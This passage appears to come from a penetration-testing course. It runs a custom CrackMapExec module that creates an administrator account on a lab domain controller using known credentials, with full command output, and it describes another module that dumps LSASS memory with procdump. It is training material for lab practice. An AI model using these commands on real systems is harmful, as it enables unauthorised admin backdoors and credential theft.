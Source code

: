 Now we can run our module with or without any options. Let's see the results, first running it with the defaults.

### **Running Our CME Module createadmin**

```shell-session
$ crackmapexec smb 10.129.203.121 -u julio -p Password1 -M createadmin 

SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\julio:Password1 (Pwn3d!)
CREATEAD... 10.129.203.121  445    DC01             [*] Creating user with the following values: USER plaintext and PASS HackTheBoxCME1337!
CREATEAD... 10.129.203.121  445    DC01             [*] Executing command
CREATEAD... 10.129.203.121  445    DC01             The command completed successfully.

The command completed successfully.
```

Next, we can run it by specifying both a username and password.

```shell-session
$ crackmapexec smb 10.129.203.121 -u julio -p Password1 -M createadmin -o USER=htb PASS=Newpassword!
SMB         10.129.203.121  445    DC01             [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefreight.htb) (signing:True) (SMBv1:False)
SMB         10.129.203.121  445    DC01             [+] inlanefreight.htb\julio:Password1 (Pwn3d!)
CREATEAD... 10.129.203.121  445    DC01             [*] Creating user with the following values: USER htb and PASS Newpassword!
CREATEAD... 10.129.203.121  445    DC01             [*] Executing command
CREATEAD... 10.129.203.121  445    DC01             The command completed successfully.

The command completed successfully.
```

We have our first module working, but it could be much better. We could split the execution into two commands and show an error if the user is already created or the password does not comply with the policies.

We can also take the value from `context.log.highlight(p)` and show something different if there is an error. What are your ideas to improve this code?

There will always be different ways of doing things. Explore what you would change in this module and how you would do it better. Further customizing this module is a great place to start creating your own modules.

***

## Learning from Other Authors

Now that we learned the basics of creating a new module, we should explore other modules and get a few ideas out.

For example, the module `procdump.py` saves the `procdump.exe` executable as a Base64 string, then converts the Base64 string to a file and keeps it in the target operating system. It executes the command `tasklist` to retrieve the process id of `LSASS`, save it to a variable, and passes the process id as an argument to the execution of procdump.exe.
